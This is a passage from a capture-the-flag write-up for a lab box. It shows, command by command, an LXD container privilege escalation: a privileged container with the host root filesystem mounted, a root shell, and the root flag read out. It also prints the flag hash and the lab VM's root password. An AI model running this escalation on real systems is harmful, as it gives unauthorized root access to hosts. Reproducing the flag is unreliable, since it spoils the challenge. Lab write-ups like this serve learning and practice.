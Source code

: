 <br>


Now initialize the image, and check if the image is in the list

```bash
(remote) brexit@misdirection:/tmp$ lxc init test -c security.privileged=true 
Creating the container
Container name is: bright-burro
(remote) brexit@misdirection:/tmp$ lxc list
+--------------+---------+------+------+------------+-----------+
|     NAME     |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+--------------+---------+------+------+------------+-----------+
| bright-burro | STOPPED |      |      | PERSISTENT | 0         |
+--------------+---------+------+------+------------+-----------+
```

Lastly, we need to mount the system and get command execution

```bash
(remote) brexit@misdirection:/tmp$ lxc config device add bright-burro whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to bright-burro
(remote) brexit@misdirection:/tmp$ lxc start bright-burro
(remote) brexit@misdirection:/tmp$ lxc exec bright-burro /bin/sh
~ # id
uid=0(root) gid=0(root)
```

Now we gonna root and so we need to go to `/mnt/root/root` to go to the root directory

```bash
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
0d2c6222bfdd3701e0fa12a9a9dc9c8c
```

With that we gain root on the box.

#lxd 

Links for reference: 

https://musyokaian.medium.com/anonymous-tryhackme-c15478d23623

https://reboare.github.io/lxd/lxd-escape.html

---

The box has less rabbit hole than i expected, which is good for my mental health and anger management issue XDD. I enjoy the box and hope that the creator will create more box's in the future. Fluffy Signout~~ ʕ•́ᴥ•̀ʔっ

FYI: The box doesn't work out of the box, with VirtualBox, you will need to login in as root to enable the dhcp service or change the adapter for it

`root: De79vXr6*s`
